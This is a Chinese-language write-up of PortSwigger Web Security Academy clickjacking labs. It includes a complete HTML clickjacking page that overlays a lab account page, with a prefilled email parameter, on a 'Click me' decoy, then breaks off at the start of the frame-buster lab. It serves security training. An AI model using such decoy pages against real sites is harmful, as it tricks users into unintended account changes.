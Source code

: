 | Dimension | Description                                                                              |
| --------- | ---------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/clickjacking#clickjacking-with-prefilled-form-input |
| Lab       | https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input               |

基礎題，跟上一題比起來，就是多了一個 `?email=wiener4@normal-user.net` 的 querystring，在 exploit-server 的 response body 設定以下 html

```html
<html>
  <head></head>
  <body>
    <style>
      html,
      body {
        margin: 0;
        padding: 0;
      }
      iframe {
        position: absolute;
        width: 500px;
        height: 500px;
        z-index: 1;
      }
      div {
        position: absolute;
        top: 450px;
        left: 50px;
        z-index: 0;
      }
    </style>
    <iframe
      src="https://0a280028033be4478041941b0035007f.web-security-academy.net/my-account?email=wiener4@normal-user.net"
    ></iframe>
    <div>Click me</div>
  </body>
</html>
```

## Lab: Clickjacking with a frame buster script

| Dimension | Description                                                               |
| --------- | ------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/clickjacking#frame-busting-scripts   |
| Lab       | https://portswigger.net/web-security/clickjacking/lab-frame-buster-script |

還好之前有寫過 [iframe security](../http/iframe-security.md) 這篇文章，所以對於 `<iframe sandbox` 的機制還有一點印象

進到 Lab 以後，先觀察 Lab 是怎麼做 frame busting 的
